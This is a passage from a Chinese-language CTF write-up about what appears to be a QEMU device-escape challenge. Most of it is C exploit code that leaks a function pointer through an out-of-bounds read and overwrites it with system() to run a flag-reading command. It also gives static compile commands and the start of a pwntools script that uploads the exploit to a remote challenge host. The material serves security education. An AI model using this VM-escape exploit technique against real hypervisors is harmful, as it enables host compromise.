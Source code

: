 ```c
    char data[100];
    memset(data,0,100);
    memset(data,'/',87);
    write_block(2,0x5c,0,data);

    // decode block 2 to block 6, it will overflow block 7 size
    pmio_write(16,0);

    // out of bound read block 7 (offset 0x44), leak encode function ptr
    char leak[0x10];
    read_block(7,8,0x44,leak);

    long long base = *((long long *)leak)-0x3404F3;
    long long sys  = base + 0x2C0AD0;

    printf("[+] base:   0x%llx \n",base);
    printf("[+] system: 0x%llx \n",sys);

    // out of bound write block 7 (offset 0x44), overwrite encode function ptr to system ptr
    write_block(7,0x5c,0x44,(char *)(&sys));

    // write cmd to block 4
    char cmd[] = "cat /flag ; gnome-calculator ;\x00";
    write_block(4,0x30,0,cmd);

    // trigger encode(block 4) to system(cmd)
    pmio_write(12,0);
    return 0;
}
```

本地成功弹计算器：

![image](https://xuanxuanblingbling.github.io/assets/pic/huawei/calc.png)

攻击远程可使用[musl libc](https://musl.cc/#binaries)减小体积，下载x86_64的本地版本[https://musl.cc/x86_64-linux-musl-native.tgz](https://musl.cc/x86_64-linux-musl-native.tgz)，然后直接编译即可：

```
➜  ../../x86_64-linux-musl-native/bin/x86_64-linux-musl-gcc --static ./exp.c -o exp
➜  ../../x86_64-linux-musl-native/bin/strip ./exp
➜  ls -al ./exp 
-rwxr-xr-x  1 xuanxuan  staff  22616  9 18 01:59 ./exp
```

还是之前python2的上传脚本...

```python
from pwn import *
context(log_level='debug')

io = remote("172.35.7.30",9999)
#io = process("./launch.sh")

def exec_cmd(cmd):
    io.sendline(cmd)
    io.recvuntil("/ #")

def upload():
    p = log.progress("Upload")
    with open("./exp", "rb") as f:
        data = f.read()
    encoded = base64.b64encode(data)
    io.recvuntil("/ #")

    for i in range(0, len(encoded), 600):
```